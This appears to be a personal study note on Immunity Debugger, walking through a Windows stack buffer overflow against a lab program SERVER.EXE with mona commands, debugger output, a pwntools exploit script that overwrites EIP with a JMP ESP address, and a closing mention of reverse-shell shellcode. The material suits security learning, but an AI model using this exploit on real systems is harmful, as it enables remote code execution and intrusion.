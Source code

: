 # 💢 Immunity Debugger
Tags: #💢
Related to: [[pwntools]]
See also: 
Previous: [[Reverse Engineering]]

---
## Description

Write exploits, analyze malware, and reverse engineer binary files.

## Usage Examples

### Create exploit

Open binary in Immunity Debugger: [^1]

	File => Open => SERVER.EXE
	Debug => Run

Let's generate a cyclic pattern. Download mona plugin to: [^2]

	C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands

Create the pattern:

	!mona pattern_create 1500

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4

0BADF00D   [+] Preparing output file 'pattern.txt'
0BADF00D       - (Re)setting logfile pattern.txt
0BADF00D   Note: don't copy this pattern from the log window, it might be truncated !
0BADF00D   It's better to open pattern.txt and copy the pattern from the file
```

Find pattern offset:

	!mona pattern_offset 33694232

```
0BADF00D   Looking for 2Bi3 in pattern of 500000 bytes
0BADF00D    - Pattern 2Bi3 (0x33694232) found in cyclic pattern at position 1028
```

Write an exploit using pwntools: [^2]

```
from pwn import *
import sys

if len(sys.argv) < 3:
    print("Usage: {} ip port".format(sys.argv[0]))
    sys.exit()

ip = sys.argv[1]
port = sys.argv[2]

payload = "A" * 1028 + "B" * 4 + "C" * 500

r = remote(ip, port)
r.recvuntil(':')
r.sendline("Admin")
r.recvuntil(':')
r.sendline(payload)
```

	python3 bof_win.py 10.10.0.2 3333	// success

```
EAX 00000010
ECX 00000002
EDX 0019F918
EBX 00312000
ESP 0019FD54 ASCII "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
EBP 41414141
ESI 00464C28 ASCII "0LF"
EDI 00464CA0
EIP 42424242
```

Now that we have an EIP overwrite, we can use it to jump to an area that we control. Looking at the stack on the bottom-right window, we see the start of our As as we scroll up.

```
0019FD40   41414141  AAAA
0019FD44   41414141  AAAA
0019FD48   41414141  AAAA
0019FD4C   41414141  AAAA
0019FD50   42424242  BBBB
0019FD54   43434343  CCCC
0019FD58   43434343  CCCC
0019FD5C   43434343  CCCC
0019FD60   43434343  CCCC
```

We can jump to the top of the stack, which is pointed to by ESP. This can be achieved by using a JMP ESP instruction, which jumps to the address pointed to by ESP. JMP ESP instructions can be found using mona.

	!mona jmp -r esp

```
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'jmp esp' : 3
0BADF00D   [+] Results :
10476D73     0x10476d73 : jmp esp | ascii {PAGE_EXECUTE_READ} [server.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\IEUser\Desktop\server.exe)
104A3FC5     0x104a3fc5 : jmp esp |  {PAGE_EXECUTE_READ} [server.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\IEUser\Desktop\server.exe)
104C33A2     0x104c33a2 : jmp esp |  {PAGE_EXECUTE_READ} [server.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\IEUser\Desktop\server.exe)
0BADF00D       Found a total of 3 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.265000
```

Let’s make EIP point to the first instruction and take control of program execution. Edit the script and add the address of the JMP ESP instruction.

```
# 0x10476d73 : jmp esp | ascii {PAGE_EXECUTE_READ} [server.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\IEUser\Desktop\server.exe)
payload = "A" * 1028 + "\x73\x6d\x47\x10" + "C" * 500
```

Due to little-endian notation, 0x10476d73 is represented as 0x73, 0x6d, 0x47, 0x10. Double-click on this address in the Log window, right-click > Breakpoint > Toggle, or just hit F2 to set a breakpoint.

```
[19:09:04] Breakpoint at server.10476D73
```

Restart the server and run the script again. Once the breakpoint is hit, we see that EIP is populated with the address of the JMP ESP instruction.

```
EAX 00000010
ECX 00000002
EDX 0019F918
EBX 003D2000
ESP 0019FD54 ASCII "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
EBP 41414141
ESI 00564C28 ASCII "0LV"
EDI 00564F00
EIP 10476D73 server.10476D73
```

Hit F7 to single-step through the code. We can see that ESP is pointing to start of the Cs.

```
0019FD53   1043 43          ADC BYTE PTR DS:[EBX+43],AL
0019FD56   43               INC EBX
0019FD57   43               INC EBX
0019FD58   43               INC EBX
```

This is where we’ll place our shellcode to be executed by the program. The tool msfvenom is useful for generating payloads in various formats. We can use it to generate 32-bit reverse shell shellcode.


---
## References

[^1]: https://www.immunityinc.com/products/debugger/
[^2]: http://docs.pwntools.com/en/stable/